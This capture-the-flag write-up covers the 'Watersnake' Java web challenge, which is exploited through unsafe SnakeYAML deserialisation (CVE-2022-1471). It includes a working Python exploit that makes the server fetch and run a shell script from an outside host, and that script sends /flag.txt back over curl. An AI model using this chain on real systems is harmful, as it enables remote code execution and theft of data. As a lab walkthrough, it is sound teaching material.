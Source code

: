 # [Web] Watersnake

This webapp is written in Java. It allows a user to define a firmware to be updated via a yaml configuration.

There is 1 vulnerability to exploit: the yaml is deserialised from the user input. The library reading it is `org.yaml.snakeyaml.Yaml`, which is vulnerable to [CVE-2022-1471](https://nvd.nist.gov/vuln/detail/CVE-2022-1471): any class can be deserialized.

```java
	@PostMapping("/update")
	public String update(@RequestParam(name = "config") String updateConfig) {
       	InputStream is = new ByteArrayInputStream(updateConfig.getBytes());
       	Yaml yaml = new Yaml();
	    Map<String, Object> obj = yaml.load(is);
		obj.forEach((key, value) -> System.out.println(key + ":" + value));
		return "Config queued for firmware update";
	}
```

In order to exploit it, we need to use a class present in the classpath. Fortunately the class `GetWaterLevel` allows to run system calls

```java
public class GetWaterLevel {
    public static String readFromSensor(String value) throws IOException {
        ProcessBuilder processBuilder = new ProcessBuilder(value.split("\\s+"));
        Process process = processBuilder.start();
        InputStream inputStream = process.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));
        StringBuilder output = new StringBuilder();
        String line;
        while ((line = reader.readLine()) != null) {
            output.append(line).append("\n");
        }
        try {
            int exitCode = process.waitFor();
            if (exitCode != 0) {
                throw new IOException("[-] Command execution failed with exit code " + exitCode);
            }
        } catch (InterruptedException e) {
            Thread.currentThread().interrupt();
            throw new IOException("[-] Command execution interrupted", e);
        }
        return output.toString();
    }
    public void initiateSensor(String value) {
        try {
			readFromSensor(value);
		} catch (IOException e) {
			System.out.println(e.getMessage());
		}
    }
    public GetWaterLevel(String value) {
        initiateSensor(value);
   }
```

Hence we can run code with something like:
```java
'!!com.lean.watersnake.GetWaterLevel ["curl http://1.2.3.4:4444/"]
```

Final exploit is:
```python
from requests import post

lol_sh = """
aaa=$(cat /flag.txt)
curl http://1.2.3.4:4444/aaa=$aaa
"""

endpoint = "http://94.237.55.114:50060"
update_path = "/update"
exploit1 = 'curl -o /tmp/lol.sh http://1.2.3.4:4444/lol.sh'
exploit2 = 'sh /tmp/lol.sh'
payload = {
    "config": '!!com.lean.watersnake.GetWaterLevel ["{}"]'.format(exploit1)
}
response = post(endpoint + update_path, data=payload)
payload = {
    "config": '!!com.lean.watersnake.GetWaterLevel ["{}"]'.format(exploit2)
}
response = post(endpoint + update_path, data=payload)
```

From the listener on `1.2.3.4:4444`, we receive the callback containing the flag.

![flag](./img/web_snake.png)
